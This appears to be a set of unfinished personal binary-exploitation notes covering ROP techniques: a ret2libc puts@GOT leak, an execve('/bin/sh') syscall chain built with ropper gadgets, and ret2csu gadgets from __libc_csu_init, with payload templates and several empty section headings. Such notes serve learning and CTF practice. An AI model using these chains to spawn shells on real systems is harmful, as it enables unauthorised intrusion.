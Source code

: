 
### in progress


ROP
	what is ROP
	how to find Gadgets (ropper)
	how to find Strings in an ELF	
	how to pivote the Stack


# ret2libc (dynamically linked ELF)
```
		to use ret2libc we need to know two things
	
		1. the exact libc version the ELF uses
		2. the base addr of libc in the process
		

		to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
		(we also need this for finding the base of libc in the process)

		since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)

		```	
		payload = b''
		payload += b'A'*0x10			#padding
		payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
		payload += p64(puts@GOT)		#addr puts@GOT
		payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
		```

		this payload will print the libc addr of puts() in the current process.

		puts_leak = `leaked addr here`

		ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.

		we will use a libc database like https://libc.blukat.me/ to find the exact version
		libc.blucat will find the libc based of the last 3 nibbles of the leaked addr siche these will always be the same 

		`last 3 nibbles of leaked addr here` 

		### BILD VON LIBC.BLUCAT.ME einfuegen ###
		
		usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

		ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
		use `vmmap` to find the libc base

		```
		vmmap output here
		```
		
		know_libc_base = `libc base here`		

		offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
		libc_base = puts_leak - offset

		ok we now know the libc version and the exact libc_base inside the current process.
		now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

		1. setup the argument for system(pointer_binsh) 
		2. call the libc function system()

		payload = b''
		payload += b'A'*0x10			#padding
		payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
		payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
		payload += p64(system)			#call the libc system function

```




# ret2system (statically linked ELF)
```
		`syscall(rax,rdi,rsi,rdx)`	
		we want to call `execve(pointer_binsh,0,0)` to spawn a shell

		so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
		1. find the syscall number for execve
		2. find a gadget that can write to a pointer like `mov [rdi],rdx`
		3. write b'/bin/sh\x00' to a writable addr.
		4. setup the registers and than syscall

		check this to find syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit`
		
		we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`

		we need a gadget that can write to a pointer so we can store the `/bin/sh\x00` string somewhere
		we can find such a gadget by using `ropper`

		```
		ropper /1/ mov [r??],r??
		```		

		i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
		since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
		when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.



		payload = b''
		payload += b'A'*0x10			#padding

		payload += p64(pop_rax)			#set rax to 0x3b
		payload += p64(0x3b)

		payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
		payload += p64(.bss)			#addr where we want to write to

		payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
		payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
		
		payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
		
		payload += p64(pop_rsi)			#set rsi to 0
		payload += p64(0x00)

		payload += p64(pop_rdx)			#set rdx to 0
		payload += p64(0x00)

		payload += p64(syscall)				

```


# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)
		
		the `__libc_csu_init` function is responsible to initialize libc files.
		in this function there are some interesting gadgets we can use.

		first gadget let us controll some registers with pop
		```
     		__libc_csu_init+90	POP        RBX
        	__libc_csu_init+91	POP        RBP
        	__libc_csu_init+92	POP        R12
        	__libc_csu_init+94 	POP        R13
        	__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
        	__libc_csu_init+100 	RET
		```

		and this will let us controll rdx,rsi and edi but we need to meet some conditions 
		```
                            	 
        	__libc_csu_init+64	MOV        RDX,R14
        	__libc_csu_init+67 	MOV        RSI,R13
        	__libc_csu_init+70 	MOV        EDI,R12D
        	__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
        	__libc_csu_init+77	ADD        RBX,0x1
        	__libc_csu_init+81	CMP        RBP,RBX
        	__libc_csu_init+84	JNE        __libc_csu_init+64
        	__libc_csu_init+86	ADD        RSP,0x8
        	__libc_csu_init+90	POP        RBX
        	__libc_csu_init+91	POP        RBP
        	__libc_csu_init+92	POP        R12
        	__libc_csu_init+94 	POP        R13
        	__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
        	__libc_csu_init+100 	RET
		```

		rbx,rbp,r12,r13,r14,r15

		rdx = r14
		rsi = r13
		edi = r12D
		rip = [r15 + rbx*8] #we use this to syscall
```
		<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">




	ret2dl_resolve

SROP

BROP

# BROP 

# SROP
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">
